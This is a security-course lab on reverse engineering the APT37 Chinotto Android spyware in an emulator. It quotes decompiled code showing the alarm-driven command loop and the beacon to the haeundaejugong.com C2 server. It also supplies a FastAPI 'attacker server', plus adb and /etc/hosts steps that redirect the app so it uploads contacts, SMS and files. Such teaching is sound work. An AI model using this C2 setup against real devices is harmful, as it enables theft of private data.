


# Android Static Analysis

In this lab, we will explore how Android static analysis (specifically, app decompiling) can be used in order to reverse engineer a real world Android spyware.


## APT Group 37

APT (Advanced Persistent Threat Group) 37, also known as Reaper or  Group 123, is a hackers group whose primary mission was to covert intelligence gathering in support of North Korea’s interests. 
Initially, it was targeting the South Korean public and private entities, but later expanded beyond the Korean peninsula.

You can find more about APT37 [here](https://malpedia.caad.fkie.fraunhofer.de/actor/apt37).

In this lab, our goal will be to reverse engineer and exploit Chinotto, a mobile spyware deployed by APT37 around 2021.

The spyware can be downloaded from [MalwareBazaar](https://bazaar.abuse.ch/browse.php?search=sha256%3A8fb42bb9061ccbb30c664e41b1be5787be5901b4df2c0dc1839499309f2d9d93).

**Please use an emulator to run the malware during this lab and don't install it on your physical Android device.**


## Running the app

In order to run the spyware, you will need an emulator.
You can use either the Android Studio emulator from the previous labs or you can install [GenyMotion](https://www.genymotion.com/product-desktop/download/).
We recommand using running an emulator with Android version 7.1.0, otherwise you might have issues with running the malware.

**No matter what emulator you choose, please make sure you don't use any personal account or information on it.**

Once you have a running emulator, you can run the `chinotto.apk` spyware from the `media` directory of the lab.
- For Android Studio, drag and drop the apk file in the emulator.
- For GenyMotion, you can install the `apk` using `adb`:

```bash
$ adb push media/chinotto.apk /tmp/
$ adb shell pm install -t /tmp/chinotto.apk
```

Now, a new app called **SecureTalk** should be available in your applications list.
<p align="center">

</p>

Once you launch the app, just hit the `Next` button a few times.
After this, you should be prompted with some interesting permission requests: contacts, SMS messages, media files.
May seem a lot, but there is nothing that would really raise suspicions for an average user of a chat application.
In order to continue our demo, approve all the requested permissions.

<p align="center">

</p>


## App Static Analysis

Now it is time to reverse engineer the spyware.
In order to decompile the `chinotto.apk` file, we will use an [online version of apktool](http://www.javadecompilers.com/apktool).
Upload the `chinotto.apk` file, download the resulted archive, extract it and open the resulted directory in your favourite editor.

A good idea when doing static analysis on Android apps is starting from the application entrypoint, the `MainActivity.java` file in our case (all the activities can be found at `sources/com/activity`).

At a first sight, things look good: the activity is dealing with the permission requests we've seen in the previous section.
However, lines 70-85 are interesting:

```java
AlarmManager alarmMgr = (AlarmManager) getApplicationContext().getSystemService(NotificationCompat.CATEGORY_ALARM);
Calendar interval = Calendar.getInstance();
interval.setTimeInMillis(System.currentTimeMillis());
interval.add(12, 1);
Intent i = new Intent(getApplicationContext(), OnAlarmReceiver.class);
PendingIntent alarmIntent = PendingIntent.getBroadcast(getApplicationContext(), 3132, i, 0);
if (alarmMgr == null) {
    return;
}
if (Build.VERSION.SDK_INT >= 23) {
    alarmMgr.setExactAndAllowWhileIdle(0, interval.getTimeInMillis(), PendingIntent.getBroadcast(getApplicationContext(), 3132, i, 0));
} else if (Build.VERSION.SDK_INT >= 19) {
    alarmMgr.setExact(0, interval.getTimeInMillis(), PendingIntent.getBroadcast(getApplicationContext(), 3132, i, 0));
} else {
    alarmMgr.set(0, interval.getTimeInMillis(), alarmIntent);
}
```

Here, a system alarm is set.

### Task

Browse the Android docs for the `AlarmManager`, `Intent` and `Calendar` functions and try to answer the following questions:

- When will the alarm be triggered?
- What code will be run when the alarm gets triggered?

Let's see what will happen with our app receives the alarm.
For this, inspect the `OnAlarmReceiver` class.
Here, the most interesting part is line 17 (also, observe that after this, the alarm is scheduled again):
```java
((App) context.getApplicationContext()).processCommand();
```

The `processCommand()` function is implemented in the `App.java` file (you can run a recursive search to find it).

The first suspicious thing is happening at line 159, where the app is trying to ping a server with a hello request.
If the server is available, a second request is run, and the result is saved as a string in the `command` variable:

```java
if (!app.sendHttpRequest(Gloabal.DO_URL + "?type=hello&direction=send&id=" + App.this.m_strMyInfo).equals(Gloabal.ERROR_VALUE)) {
    App app2 = App.this;
    String command = app2.sendHttpRequest(Gloabal.DO_URL + "?type=command&direction=receive&id=" + App.this.m_strMyInfo);
```

According to the received command, the app is taking several malicious actions.

### Task

By analyzing the `processCommand()` function, try to answer the following questions:
- What is the URL of the server contacted by the app?
- What action is done by the app for each command received from the server and what information is leaked in each case?

We can observe that, by using the Android alarm mechanism, the app is able to constantly share with a remote server personal information of the user (contacts, calls, SMS messages), without any interaction. 


## Exploiting the App

The malicious server contacted by our **SecureTalk**  app is no longer available.
You can check this by running:
```bash
$ whois http://haeundaejugong.com/data/app.php
```

However, it is time for us to play the hacker role and exploit the app in order to get some sensitive info from the emulator.

First, let's prepare some sensitive data.
In your emulator, add a few fake contacts, send them some SMS messages and make some phone calls.

Create an `attacker_server.py` file with the following content:

```python
from fastapi import FastAPI, UploadFile
import uuid

app = FastAPI()


@app.get("/")
def read_root():
    return {"Hello": "World"}


@app.get("/data/jugong/do.php")
def read_item():
    return "UploadInfo"

@app.post("/data/jugong/do.php")
async def read_item(file: UploadFile):
    file_id = uuid.uuid4()
    with open(f"./capture_{file_id}", "wb") as f:
        f.write(await file.read())

    return file_id
```

The first endpoint (the one corresponding to the `/` path) is replying with a random hello world message.
This is used in order to pass the initial ping sent by the app (see the previous section).
The second endpoint is used to send the `UploadInfo` command to the app at the second request.
Also, when a `POST` request is issued to the second endpoint, the received file is saved on the local system as a capture.

**HINT: In order to understand the second endpoint better, look on the decompiled sources for the `sendHello()` implementation in the `uploadInfo` case. Also, look for the `uploadToWeb()` function that is used to send the leaked data to the server.**

Let's run the server.
First, you will need to install FastAPI and Uvicorn.
We will install the Python modules as root because we will later need to run the server as root.

```bash
$ sudo pip install fastapi
$ sudo pip install uvicorn
$ sudo pip install python-multipart
```

Second, run it.
The easiest way for the server to be available to our emulator is making it listen for requests on all network interfaces (the `0.0.0.0` host in the command below).
For this, we will run the server as root (not a good practice in general):
```bash
$ sudo uvicorn main:app --host 0.0.0.0 --port 80
```

In order for us to receive the requests, we will need to trick the emulator into resolving the malicious URL to our localhost.
First, find the IP address of your emulator's interface (make sure you configure its network adapter as NAT).
Then, edit the `/etc/hosts` file using adb shell.
You will need to get read-write access on the `/system` directory.

```bash
$ adb root
$ adb shell
$ mount -o rw,remount /system
``` 

Finally, add the following line at the beginning of `/etc/hosts`:

```bash
<the_ip_you_found>         haeundaejugong.com
```

Now, re-run the app and observe what is happening on the server's output:

<p align="center">

</p>

We can see that the server receives both `GET` and `POST` requests from the app.

Now, let's check the captures.
We can see that the files received from the app are zip archives, so we extract them (ignore the empty captures, if you have some):

```bash
$ file capture_<random_id>
capture_6355bb78-bda4-4eed-be95-084361c547c5: Zip archive data, at least v2.0 to extract
$ unzip capture_<random_id>
```

And now we are done.
Just check the extracted content and enjoy the leaked information.

### Task

Try to change the content of the `attacker_server.py` file, so that the server will make the app leak the content of a file from the mobile device.

